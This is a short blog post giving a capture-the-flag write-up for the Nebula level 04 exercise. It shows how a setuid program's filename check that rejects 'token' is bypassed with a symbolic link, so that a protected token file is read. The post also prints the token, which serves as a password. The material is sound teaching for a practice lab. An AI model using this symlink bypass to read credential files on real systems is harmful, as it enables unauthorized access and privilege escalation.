 ```yaml
---
layout: post
title: "Bypassed restriction"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 04](http://exploit-exercises.com/nebula/level04) Agenda**: "This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)"

<center>
	<img src="/images/2015-02-22-bypassed_restriction/reference.jpg">
</center>

<br />

After code review we can note that [strstr](http://www.tutorialspoint.com/c_standard_library/c_function_strstr.htm) makes check that filename which one we passed as input doesn't contain substring "*token*" or as result you'll get "*EXIT_FAILURE*" [status](http://www.gnu.org/software/libc/manual/html_node/Exit-Status.html). As we have no permissions to rename/copy/move that token, to bypass restriction we'll use [symbolic](http://linuxg.net/the-linux-and-unix-links-the-symbolic-link-vs-the-hard-link/) link ([ln -s](http://unixhelp.ed.ac.uk/CGI/man-cgi?ln)).

{% highlight sh linenos %}
level04@nebula:~$ cd /home/flag04
level04@nebula:/home/flag04$ ls -la
total 13
drwxr-x--- 2 flag04 level04   93 2011-11-20 21:52 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag04 flag04   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag04 flag04  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw-r--r-- 1 flag04 flag04   675 2011-05-18 02:54 .profile
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token

level04@nebula:/home/flag04$ mkdir /tmp/level04
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/level04/flag
level04@nebula:/home/flag04$ ./flag04 /tmp/level04/flag

06508b5e-8909-4f38-b630-fdb148a848a2
{% endhighlight %}

 And finally, we can use the hash at line 16 as a passphrase for "*flag04*" user. After obtaining the access you should know what to do =)